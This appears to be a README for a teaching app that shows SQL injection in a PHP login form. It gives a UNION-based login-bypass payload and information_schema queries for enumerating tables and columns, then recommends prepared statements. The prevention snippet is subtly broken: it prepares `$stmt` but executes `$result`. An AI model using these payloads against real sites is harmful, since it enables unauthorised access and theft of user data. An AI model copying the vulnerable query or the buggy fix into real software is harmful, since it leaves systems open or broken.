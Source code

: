 # SQL Injection Demonstration

A simple PHP login/register application to demonstrate SQL injection vulnerabilities.

## Setup

1. Clone the repository
2. Setup MySQL user demouser
3. Setup MySQL database demo_db with password demopassword
4. Run the SQL scripts in the root of the repository to create the users table and insert some test data.

## Usage

1. Run the PHP application using the PHP built-in web server: `php -S localhost:8000`
2. Navigate to http://localhost:8000 in your browser
3. Login with the email `' UNION SELECT id, name, email, password, sin FROM users -- -`
4. You should now be logged in as the first user in the database, John Doe, and you should see their profile page.

## Explanation

The login form is vulnerable to SQL injection because it does not sanitize the input from the email field. 

The SQL query that is executed as a result of a normal login form submission is:

```sql
SELECT * FROM users WHERE email = '$email' AND password = '$password'
```

with `email` and `password` coming from the form.

The SQL query that is executed as a result of the login form submission is:

```sql
SELECT * FROM users WHERE email = '$email' UNION SELECT id, name, email, password, sin FROM users -- -' AND password = '$password'
```

Since the password is no longer a part of the query, the query will return all users in the database.

Then when the below PHP code is executed, fetch_assoc() grabs the first row, and logs in as that user.

```php
if ($result->num_rows > 0) {
    $row = $result->fetch_assoc();
    header("Location: profile.php?id=" . $row['id']);
    exit;
} else {
    echo "Login failed!";
}
```

## Prevention

The best way to prevent SQL injection is to use prepared statements. Prepared statements are a feature of the database that allow you to specify the query and the parameters separately. The database will then ensure that the parameters are properly escaped before executing the query.
 
Use prepared statements in PHP:

```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE email=? AND password=?");
$result->execute([$email, $password]);
```

## Reality

This is not typically how these attacks take place. 

First of all the attacker is assumed to know information about the database like the table name and it's column names. Usually the attacker will try to get this information by using similar emails to the one provided above.

For example if the site had a search functionality that echoed data back to the user and the attacker knew there were 5 columns in the actual queried table, they could use:

```sql
' UNION SELECT table_name, NULL, NULL, NULL, NULL FROM information_schema.tables WHERE table_schema = DATABASE() -- 
```

Resulting in the query:

```sql
SELECT * FROM users WHERE email='$email' UNION SELECT table_name, NULL, NULL, NULL, NULL FROM information_schema.tables WHERE table_schema = DATABASE() -- -' AND password='$password'

```

If the site echoed back the table name: users, they could then search for:

```sql
' UNION SELECT column_name, NULL, NULL, NULL, NULL FROM information_schema.columns WHERE table_name = 'users' -- -
```

Resulting in the query:

```sql
SELECT * FROM users WHERE email='$email' UNION SELECT column_name, NULL, NULL, NULL, NULL FROM information_schema.columns WHERE table_name = 'users' -- -' AND password='$password'
```

and now they would have the column names: id, name, email, password, sin.

If the search was poorly designed and echoed back the data from the table, they could then search for the original query and get the profile data for all users. Hence why it is important to not only prevent SQL injection, but also to store sensitive data in as hashes and not plain text.

